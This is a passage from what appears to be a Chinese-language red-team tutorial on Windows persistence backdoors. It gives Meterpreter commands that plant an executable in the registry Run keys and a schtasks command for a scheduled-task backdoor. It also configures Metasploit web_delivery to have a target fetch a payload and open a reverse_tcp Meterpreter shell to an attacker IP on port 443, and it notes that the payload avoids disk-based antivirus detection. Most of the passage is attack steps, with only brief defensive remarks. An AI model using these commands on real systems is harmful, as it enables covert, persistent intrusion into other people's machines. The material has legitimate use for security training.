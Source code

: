 ##### 防御措施

* 在远程登录服务器时，连续按5次Shift键，判断是否被入侵
* 拒绝使用sethc.exe或者关闭启用粘滞键选项

#### 注册表注入后门

普通用户权限下，攻击者会将需要执行的后门程序或者脚本路径填写到注册表键`HKCU:Software\Microsoft\Windows\CurrentVersion\Run`中（键名任意）。

##### MSF添加注册表注入后门

先上传一个后门程序，然后枚举键值（Meterpreter下）：

```powershell
reg enumkey -k HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\run
# normal user
reg enumkey -k HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run
```

添加一条记录：

```powershell
reg setval -k HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\run -v bd -d "C:\bd.exe"
# normal user
reg setval -k HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\run -v bd -d "C:\bd.exe"
```

##### 防御措施

杀毒软件都有专门的查杀机制，可以进行扫描。

#### 计划任务后门

在之前的横向移动总结里使用过这个进行横向移动；建立`ipc$`连接后使用这个命令可以在目标主机上创建计划任务，从而拿下目标主机。

这里的主要是使用计划任务进行权限维持，部署后门。

在Win 7之前的操作系统使用`at`钓鱼，自Win 8开始使用`schtasks`命令调用。计划任务后门分为管理员权限和普通用户权限两种，管理员权限的后门可以设置更多的计划任务，例如重启后运行等。

计划任务后门的基本命令如下：

```powershell
schtasks /Create /tn Updater /tr notepad.exe /sc hourly /mo 1
```

##### 在MSF中模拟计划任务后门

使用MSF的`Powershell Payload Web Delivery`模块，可以模拟攻击者在目标系统中快速建立会话的行为。由于该行为不会被写入磁盘，所以安全防护软件不会对该行为进行检测。

```powershell
use exploit/multi/script/web_delivery
set target 2
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.140.128
set lport 443
set URIPATH /
run
```

此时如果在目标系统中下载后门代码并运行，就会生成一个新的会话：
